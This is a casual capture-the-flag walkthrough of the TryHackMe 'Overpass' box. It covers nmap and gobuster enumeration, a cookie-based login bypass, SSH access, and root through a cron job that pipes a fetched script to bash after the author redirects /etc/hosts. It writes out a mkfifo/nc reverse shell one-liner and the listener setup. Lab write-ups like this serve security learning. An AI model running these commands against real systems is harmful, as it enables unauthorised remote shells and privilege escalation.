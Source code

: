 nmap -sV -sC -o nmap 10.10.225.194

noted that port 22 ssh and port 80 http is open
server is running on linux

side note; i just switched over from virtualbox to vmware 12 free version for mac, and it's smooth af. really wondering what was i doing on virtualbox previously....

next up explore the page on firefox, first thing i do is to view page source to see if there's anything hidden in there.
nothing much over there though.
exploring the downloads page seems to show nothing much too.
about us page seems to show the names of some staff; possible usernames for ssh login maybe?
best bet now is to use gobuster (read that it is faster than dirb and seems to think so when i used it for some boxes)

as this is a fresh install on vmware, i encountered this same problem i faced on virtual box "E: Unable to locate package" when i tried to install gobuster
following the following to resolve 
https://ourcodeworld.com/articles/read/961/how-to-solve-kali-linux-apt-get-install-e-unable-to-locate-package-checkinstall


gobuster dir -e -u http://10.10.225.194/ -w /usr/share/wordlists/dirb/common.txt

these are the results: 
http://10.10.225.194/aboutus (Status: 301)
http://10.10.225.194/admin (Status: 301)
http://10.10.225.194/css (Status: 301)
http://10.10.225.194/downloads (Status: 301)
http://10.10.225.194/img (Status: 301)
http://10.10.225.194/index.html (Status: 301)

http://10.10.225.194/admin (Status: 301) < this seems good>

got to the login page with that link, lets try admin/admin probably? failed.
oh the hint says this "OWASP Top 10 Vuln! Do NOT bruteforce."
seems like the credentials shd be hidden somewhere in the page
maybe the source code?

opening the source code shows that they are using rot47
github.com/mitchellh/go-homedir <looks suspicious> nothing in there..
kinda stuck here so lets reverse back to the hint
OWASP TOP 10 
1. Injection (not possible since no sql here)
2. Broken Authentication (seems high likely)
3. Sensitive Data Exposure (not much data here now i guess)
4. XML External Entities (doesnt seem like it)
5. Broken Access Control (likely?)
6. Security Misconfiguration (hmm?)
7. Cross-Site Scripting (not over here i think)
8. Insecure Deserialisation (not here i think)
9. Using Components with Known Vulnerabilities (no)
10. Insufficient logging and monitoring (not here)

This really seems like the most likely. 
2. Broken Authentication (seems high likely) 

back to the login page, view page source, theres this file called login.js and theres an if else function in it that seems to check for some cookies.
refered to this page for help 
https://medium.com/@jonaldallan/write-up-try-hack-me-overpass-2ace3e3ba806

ssh -i id_rsa james@IP

081020 0207am got into the box with james credentials, lets leave privilege escalation for tmr then........

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash


noted that we have write access to this particular file
-rw-rw-rw-  1 root root        250 Jun 27 02:39 hosts

just gonna do some skipping by simplifying what i did
so from the todo.txt there's a hint that there's an automated batch job, so i went to check the crontab file and found that we can use the following
downloads/src/buildscript.sh so we set up this same directory on my kali linux with the reverse shell inside the buildscript.sh file

followed some guide and used the following:
>:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 'my-own-ip' 8080>/tmp/f

tried some from pentestmoney and they cant work and im not too sure why though..

setting up a webserver to receive a job
sudo python3 -m http.server 80

setting up netcat to catch the reverse shell
nc -lnvp 8080

and tada, we root it!
091020 0148am






